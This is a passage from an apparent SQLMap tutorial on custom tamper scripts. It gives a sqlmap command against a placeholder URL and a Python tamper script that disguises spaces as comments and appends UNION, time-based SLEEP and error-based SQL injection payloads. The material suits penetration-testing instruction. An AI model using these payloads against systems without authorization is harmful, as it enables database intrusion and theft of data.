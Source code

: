 **Save the Script**

Save this script in the tamper directory of SQLMap.

**Use the Tamper Script with SQLMap**

Run SQLMap with your custom tamper script to apply your modifications to the payloads.

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=custom_payload_tamper
```

## Advanced Example with Multiple Payloads

You can combine multiple payloads and tamper scripts to create more complex injection tests. Below is an advanced example where custom payloads are systematically applied to the requests.

### Example: Combining Multiple Techniques

**Create a Complex Tamper Script**

```
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Custom tamper script to apply multiple custom payloads
    """
    if payload:
        payload = payload.replace(" ", "/**/")
        
        if "UNION" in payload.upper():
            payload += " UNION SELECT null, user(), database(), version() --"
        
        if "AND" in payload.upper():
            payload += " AND IF(1=1, SLEEP(5), 0) --"
        
        if "OR" in payload.upper():
            payload += " OR (SELECT 1/0 FROM dual) --"
        
    return payload
```

**Save and Use the Script**

Save this script as `complex_tamper.py` in the tamper directory.

**Run SQLMap with the Complex Tamper Script**
